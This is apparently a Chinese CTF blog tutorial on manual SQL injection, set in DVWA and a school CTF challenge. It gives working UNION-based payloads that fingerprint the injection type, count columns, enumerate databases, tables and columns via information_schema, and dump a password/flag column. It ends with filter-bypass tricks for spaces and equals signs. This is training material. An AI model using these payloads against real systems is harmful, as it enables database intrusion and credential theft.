 ```yaml
---
title: SQL基础
date: 2020-12-08
description: SQL手工注入的基本步骤，绕过空格、等号
category: 信息安全
tags:
  - CTF
  - SQL
---
```

# 判断注入类型  
输入`1' and 1=2 #`，这明显是不成立的，如果回显正常，说明不是字符型注入，不是单引号闭合；如果报错，证明是字符型注入  
同理，输入`1 and 1=1 #`判断是否是数字型注入  
以DVWA的sql(low)为例，输入`1 and 1=1 #`没有报错，证明这不是数字型注入：
![不是数字型注入](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/main/assets/images/SQL/dvwa.png)
而输入`1' and 1=2 #`报错，是字符型注入
# 爆显示位（字段数）
接下来以校赛题目为例，是字符型注入。原题过滤了空格和等号，这里我们假装没有任何过滤  
用`1' or 1=1 #`可以看到所以的信息，这是因为查询语句变成了查找满足用户名是1或者满足1=1的所有用户。虽然没有用户名为1，但是所有用户名都满足1=1，所以会显示所以用户信息  
## 用order by爆
用`1' or 1=1 order by 5 #`爆显示位。order by 5返回正常，这意味着显示位大于等于5个，一直试到报错为止。这个题加到6就报错了  
order by的意思是按第几个字段排序
## 用union select爆
用`1' union select 1,2,3,4,5 #` 同样一直加到报错为止。用这个有一个好处，就是可以看到数据库和显示出来的数据之间的对应关系  
这是用1,2,3,4,5注入回显正常的情况：
![正常回显](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/main/assets/images/SQL/%E6%A0%A1%E8%B5%9B%E5%9B%9E%E6%98%BE%E6%AD%A3%E5%B8%B8.png)
可以看出虽然有5个字段，但是只有前两个会显示出来，而且顺序没有变  
这是用1,2,3,4,5,6注入回显不正常的情况：
![异常回显](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/main/assets/images/SQL/%E6%A0%A1%E8%B5%9B%E5%9B%9E%E6%98%BE%E5%BC%82%E5%B8%B8.png)
虽然没有提醒异常，但是username不是我们注入的（这个题不管输入什么都会回显PhuoYGT）
# 爆库名
## 用database爆库名
`1' union select 1,database(),3,4,5 #`   
在2号位显示库名，后面的3,4,5用来凑显示位  
这样爆库名只能看到当前的库
![只能看到用户的库](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/main/assets/images/SQL/%E7%88%86%E5%BA%93%E5%90%8D1.png)
## 用information_schema爆库名
```sql
1' union select 1,(select group_concat(schema_name) from information_schema.schemata),3,4,5 #
```
information_schema是元数据库，里面存放了所有数据库的所有信息，比如库名、表名、列、数据类型、访问权限等  
schemata是information_schema中的一个表，里面存放了库名  
group_concat()函数可以把组中的字符串连接成一个字符串，schema_name就是库名，group_concat(schema_name)就是从
information_schema.schemata这个表中搜索schema_name（库名），并且返回为一个字符串
![看到了所有库](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/main/assets/images/SQL/%E7%88%86%E5%BA%93%E5%90%8D2.png)
# 爆表名
```sql
1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = 'cumtctf'),3,4,5 #
```
information_schema.tables中存放了所有表的信息，table_schema是数据表所属的数据库名  
获取了cumtctf这个库中表的表名：
![表名](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/main/assets/images/SQL/%E7%88%86%E8%A1%A8%E5%90%8D.png)
# 爆列名
```sql
1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name = 'ctfers'),3,4,5 #
```
column_name就是列名，table_name表名（这次不用在库里搜索了，和schema没关系了）  
获得列名如下：
![列名](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/main/assets/images/SQL/%E7%88%86%E5%88%97%E5%90%8D.png)
# 爆flag
## 全爆
```sql
1' union select 1,(select group_concat(password) from ctfers),3,4,5 #
```
这个可以看到password里的所有信息，一堆密码和flag
![爆一堆flag](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/main/assets/images/SQL/%E7%88%86flag1.png)
## 一个一个爆
```sql
1' union select 1,(select password from ctfers limit 15,1),3,4,5 #
```
limit作用是从第15个开始（从0开始计数），返回一个（不能返回多个，显示位就一个）  
一个一个试，试到第15个
![一个一个试](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/main/assets/images/SQL/%E7%88%86flag2.png)
# 绕过姿势要妖娆
## 绕过空格
`/**/`占位置的正则表达  
`%09`tab  
`%20`空格  
## 绕过等号
`regexp`  
`like`  
`rlike`  
都可以代替等号


